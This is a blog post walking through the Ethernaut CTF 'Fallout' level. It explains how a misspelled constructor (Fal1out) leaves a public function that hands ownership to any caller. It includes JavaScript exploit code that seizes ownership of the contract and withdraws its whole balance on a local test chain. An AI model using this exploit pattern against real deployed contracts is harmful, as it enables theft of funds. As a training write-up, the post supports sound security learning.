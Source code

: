 Title: Solving OpenZeppelin's Ethernaut CTF - Fallout
Date: 2018-06-01 10:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-fallout
Summary: Third post of a series in which we tackle the challenges in the [Ethernaut CTF by OpenZeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In this one, we solve the second challenge: Fallout.

## Introduction
While in the [Introduction](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-intro/) of this series we setup the environment with Ganache-cli and Truffle, in the [second article](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/) we walked through deploying our first smart contract, the basics of Solidity and Web3 and finally found a way to become the owners of the Fallback contract, thus passing the first challenge. Now, we will solve the second one: [Fallout](https://ethernaut.zeppelin.solutions/level/0x220beee334f1c1f8078352d88bcc4e6165b792f6).

## The Fallout contract
Take a moment to *thoroughly* look at the contract's source code and try to find what is wrong with it.

Need a hint ? Remember what we talked [about contract's constructors](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#constructors).

Not quite there yet ? Observe the contract's name and the name of the *constructor*. Any difference ?

~~~solidity
contract Fallout is Ownable {
    ...
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
    ...
}
~~~

Yeap, there it is. Fallout is not the same as Fal1out, which means: **Fallout does not have a constructor**. The function that was intended to be the contract's constructor is actually a regular **public** function that can be called by anyone, since its name does not match the contract's name.

Having discovered that, all we have to do now in order to become the owners of the contract (i.e. pass the challenge) is simply call the Fal1out function.

## Solving Fallout
Just follow this simple steps:

1. Start ganache-cli
2. Deploy the Fallout contract with Truffle
3. Write and execute exploit

Since steps 1 & 2 were covered in the [previous article](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#deploying-your-first-smart-contract), let's skip those here and move on to the fun stuff: exploiting the contract.

First, as you can see below, the structure of the exploit remains the same as in Fallback. We get the attacker account, an instance of the deployed vulnerable contract and check its owner.

~~~javascript
const FalloutContract = artifacts.require('Fallout')
const assert = require('assert')

async function execute(callback) {
    // Get attacker account
    let attacker = web3.eth.accounts[1]
    console.log(`Attacker address: ${attacker}`)

    // Instance vulnerable contract
    let contract = await FalloutContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    assert.equal(contractOwner, web3.eth.accounts[0])
    console.log(`Contract owner: ${contractOwner}`)

    //[...]

    callback()
}
module.exports = execute
~~~

Once done with that, we need to call the Fal1out function and assert the attacker has become the owner:
~~~javascript
await contract.Fal1out({
    from: attacker,
    value: web3.toWei(0.0009, 'ether')
})

// Check who's the owner now (:
contractOwner = await contract.owner.call()
assert.equal(contractOwner, attacker)
console.log(`Contract owner: ${contractOwner}`)
~~~

Excellent! As owners, we can withdraw the entire balance of the contract.
~~~javascript
// Withdraw all money
let response = await contract.collectAllocations({
    from: attacker
})
console.log(`Withdrew all allocations in transaction ${response.tx}`)
~~~

Aaand, challenge completed. That wasn't so hard, right ?

Find the entire [exploit code of the Fallout contract at my GitHub repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/fallout.exploit.js).

If you enjoyed this challenge, stay tuned! In the [next post](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-coinflip) we will dive into the problems of randomness in the Ethereum blockchain with the next challenge: [Coin Flip](https://ethernaut.zeppelin.solutions/level/0xd340de695bbc39e72df800dfde78a20d2ed94035).
